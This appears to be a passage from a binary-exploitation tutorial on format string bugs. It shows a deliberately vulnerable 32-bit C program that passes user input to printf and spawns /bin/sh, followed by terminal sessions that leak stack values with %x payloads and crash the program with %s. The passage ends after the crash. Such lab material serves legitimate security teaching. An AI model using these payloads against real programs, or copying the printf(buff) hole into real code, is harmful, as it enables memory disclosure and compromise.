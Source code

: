 ## Read arbitrary data

Consider this program:
```C
#include <stdio.h>
#include <string.h>
#include <unistd.h>

// gcc read-arbitrary-data.c -o read-arbitrary-data -m32

int main(int argc, char *argv[]){
  const char *allow = "Access granted.\n";
  const char *deny = "Access denied.\n";
  char buff[200];
  read(1, buff, 200);
  if (strncmp("password\0", buff, 9) == 0) {
    printf(allow);
    system("/bin/sh");
  } else {
    printf(deny);
    printf("Say goodbye!!!");
  }
  read(1, buff, 200);
  printf(buff);
}
```

Try to exploit it. Suppose that we don't know the password:
```bash
$ ./read-arbitrary-data
afasfsf
Access denied.
AAAAAAAAAAAAAAAAA
Say goodbye!!!AAAAAAAAAAAAAAAAA
```

Okay, we see that the program mirrors our string. Let's try format string.
```bash
$ ./read-arbitrary-data
asdfafaf
Access denied.
AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
Say goodbye!!!AAAAffc06134.c8.5659824d.0.100.40.ffc062c4.0.0.0.56599008.56599019.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
```

Again, you meet the value `0x41414141` which is the beginning of our string. But, what are the values before it? Check it out with %s.
```bash
$ ./read-arbitrary-data
sadfafa
Access denied.
AAAA%s %s %s %s %s %s %s %s %s %s
Say goodbye!!!AAAAAAAA%s %s %s %s %s %s %s %s %s %s
Segmentation fault (core dumped)
```
